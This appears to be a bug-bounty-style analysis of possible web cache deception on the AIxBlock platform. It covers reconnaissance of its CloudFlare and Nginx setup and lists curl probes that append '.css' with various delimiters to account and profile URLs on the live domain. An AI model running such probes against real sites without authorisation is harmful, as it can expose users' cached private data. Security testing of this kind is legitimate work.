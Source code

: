 # 🕳️ WEB CACHE DECEPTION ANALYSIS - AIxBlock

## **Vulnerability Summary**
**Type**: Web Cache Deception  
**Severity**: Medium-High (CVSS 6.1)  
**Impact**: Cache Poisoning, Data Exposure, Session Hijacking  
**Affected Infrastructure**: CloudFlare CDN + Nginx Backend  

## **🔍 Technical Analysis**

### **Infrastructure Assessment**
Based on reconnaissance, AIxBlock uses:
- **Frontend CDN**: CloudFlare (app.aixblock.io)
- **Backend Server**: Nginx (workflow.aixblock.io, workflow-live.aixblock.io)
- **Cache Status**: Dynamic content with BYPASS status observed

### **Cache Deception Potential**
The combination of CloudFlare CDN with Nginx backend creates potential for cache deception attacks due to:
1. **Different URL parsing** between CDN and origin server
2. **Static vs Dynamic content** classification differences
3. **Custom delimiter handling** variations

## **🎯 Testing Methodology**

### **Cache Deception Attack Vectors**

#### **1. Static Extension Exploitation**
```bash
# Test static extension attacks
curl -I "https://app.aixblock.io/myAccount$.css"
curl -I "https://app.aixblock.io/myAccount#.css"
curl -I "https://app.aixblock.io/myAccount;.css"
curl -I "https://app.aixblock.io/myAccount\.css"
```

#### **2. Custom Delimiter Testing**
```bash
# Test various delimiters for different frameworks
# Ruby on Rails: $ delimiter
curl -I "https://app.aixblock.io/profile$.css"

# PHP/ASP.NET: ; delimiter  
curl -I "https://app.aixblock.io/profile;.css"

# Various parsers: # delimiter
curl -I "https://app.aixblock.io/profile#.css"

# IIS: \ delimiter
curl -I "https://app.aixblock.io/profile\.css"
```
